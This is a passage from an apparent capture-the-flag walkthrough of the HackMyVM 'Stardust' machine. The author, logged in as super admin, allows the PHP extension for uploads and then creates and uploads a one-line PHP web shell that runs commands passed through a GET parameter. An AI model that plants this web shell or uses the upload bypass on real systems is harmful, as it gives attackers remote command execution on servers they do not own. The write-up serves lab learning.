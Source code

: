## Exploitation

By clicking everywhere we will discover the Documents section under the Management tab where we can upload files. Unfortunately, this doesn't allow us to upload PHP scripts. Remember that we logged in as the super admin user so the may be a way to change this. By doing a Google search on how to do this, we will discover that this can be done in the Dropdowns section under the Setup tab. We can now add the PHP extension to the PHP file upload.
![](/assets/img/posts/walthrough/hackmyvm/2024-09-21-stardust/extensions-added.png)

Now that we have added the PHP extension as an authorised extension we can go back to the document section and upload our PHP web shell.
```bash
┌──(pentester㉿kali)-[~/Stardust/Misc File]
└─$echo '<?php system($_GET["cmd"]); ?>' > webshell.php
```
![](/assets/img/posts/walthrough/hackmyvm/2024-09-21-stardust/shell-upload.png)

We can successfully upload the file but we do not know where this file is stored on the server. We can do a Google search to find where this file was uploaded to.
![](/assets/img/posts/walthrough/hackmyvm/2024-09-21-stardust/google-search.png)
